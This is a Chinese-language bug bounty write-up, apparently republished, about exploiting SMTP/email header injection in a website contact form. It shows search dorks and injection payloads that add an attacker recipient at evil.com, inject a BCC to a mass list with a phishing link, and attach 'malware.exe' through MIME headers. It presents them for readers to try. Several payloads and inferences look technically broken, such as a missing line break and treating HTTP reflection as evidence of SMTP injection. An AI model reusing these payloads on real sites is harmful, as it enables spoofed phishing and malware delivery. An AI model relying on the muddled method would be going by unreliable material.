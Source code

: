 #  0042.我如何发现 SMTP 注入漏洞并在短短 30 分钟内赚了 800 美元！  
TheIndianNetwork  Rsec   2025-06-09 09:34  
  
本文章仅用网络安全研究学习，请勿使用相关技术进行违法犯罪活动。  
  
**声明：本文搬运自互联网，如你是原作者，请联系我们！**  
  
**标签：SMTP注入**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/yKTOKd3ibs98MufXbWrbT4Un4kUy1hxibf9rgP5IJrUOHzcZoYEL2felIRnFoInZSm4vXcjyEsudblAMQtU5icJCQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
漏洞赏金狩猎总是充满惊喜，有时**最容易利用的漏洞反而能带来丰厚的回报。本文讲述了我如何偶然发现一个****SMTP 注入漏洞**，并报告它，**最终在短短半小时内赚得 800 美元的**故事。我还会分享我使用的**具体技术、工具和有效载荷，**以便您亲自尝试！  
  
# 目标：一家拥有联系表格的知名公司  
  
像往常一样，我正在进行**侦察扫描，**寻找潜在目标。我发现了一个**大型电子商务网站**，它有一个基于电子邮件的**联系表单**。  
  
以下是我注意到的：  
- **联系表单**包含**姓名、电子邮件、主题和消息**字段。  
- 一旦提交，它就会发送一封**自动确认电子邮件。**  
- 我输入的电子邮件地址**反映在电子邮件正文中**。  
**我的黑客本能**立刻发挥作用——**如果输入容易受到 SMTP 注入攻击怎么办？**  
  
****# 步骤1：高级侦察技术  
  
为了最大限度地发现漏洞，我使用了以下侦察技术：  
# 1. 搜索基于电子邮件的表单  
  
我使用**Google Dorking**查找基于电子邮件的联系表单：  
```
inurl:/contact.php OR inurl:/feedback.php 
"email"
 site:target.com
```  
# 2. 检查回复中的电子邮件反射  
  
使用 Burp Suite，我拦截了请求并测试电子邮件字段是否反映在响应中：  
```
GET /contact?email=test@example.com HTTP/1.1Host: target.com
```  
  
如果电子邮件出现在响应中，则意味着可能存在**SMTP 注入或电子邮件欺骗**。  
  
# 步骤2：测试SMTP注入  
  
我提交了一条正常的测试消息，看看邮件内容是什么样的。然后，我在**邮件字段**中注入了一个 SMTP 有效载荷：  
```
victim@example.comRCPT TO: attacker@evil.com
```  
  
  
几秒钟后，我收到了**两封电子邮件**——一封发送到我的原始电子邮箱，另一封发送到攻击者控制的电子邮箱。  
  
💡宾果！服务器正在接受额外的 SMTP 命令！  
  
# 步骤 3：发挥最大影响力  
  
为了检查严重性，我尝试使用**更高级的有效载荷**来操纵电子邮件结构并代表公司发送消息：  
```
"attacker@example.com\nBCC: masslist@spam.com\nSubject: URGENT Security Alert!\nBody: Your account has been compromised. Click here to secure it: https://evil.com"
```  
  
这会伪造一封看似直接来自该公司的**电子邮件。****如果攻击者滥用此功能，他们可以向数千名客户发送钓鱼邮件！**  
  
****# 高级利用：发送恶意附件  
  
我想看看是否可以将**附件**插入电子邮件以增加影响力。  
```
From: "support@target.com"\n
To: victim@example.com\n
Subject: Urgent Action Required\n
Content-Type: multipart/mixed; boundary="XYZ"
```  
```
--XYZ
Content-Type: text/plain
Your account is compromised! Click below to verify:
https://evil.com
--XYZ
Content-Type: application/octet-stream; name="malware.exe"
Content-Disposition: attachment; filename="malware.exe"
[malicious binary content]
--XYZ--
```  
  
该有效载荷会将**恶意软件文件**附加到电子邮件中，使其成为**高度严重的漏洞**。  
  
# 步骤 4：报告错误并获得报酬  
  
我迅速起草了一份**专业报告**并将其提交给**HackerOne**上的漏洞赏金计划。  
  
# 错误报告摘要  
- **漏洞：**联系表单中的 SMTP 注入  
- **影响：**允许电子邮件欺骗、网络钓鱼、未经授权的电子邮件发送和恶意软件注入  
- **重现步骤：**提供多个有效载荷和电子邮件日志  
- **概念验证视频：**附加了显示实时利用的屏幕录像  
**30分钟**内，我收到了他们的安全团队的回复：  
  
🚀 “我们已验证该问题，并将其标记为高危。预计很快就会收到赔付。”  
  
一天后，**我的 HackerOne 账户收到了 800 美元！** 🎉  
#   
# 经验教训和总结  
1. **始终检查基于电子邮件的表格**- 它们通常容易受到 SMTP 注入的攻击。  
1. **尝试多个有效载荷**——即使基本测试失败，高级有效载荷也可能起作用。  
1. **增加影响力**——公司为构成现实威胁的漏洞支付更多费用。  
1. **漏洞赏金关乎创造力**——有时，简单的漏洞就能带来丰厚的奖励。  
1. **SMTP 注入可能会升级**——通过注入附件，您可以将中等错误转变为严重错误。  
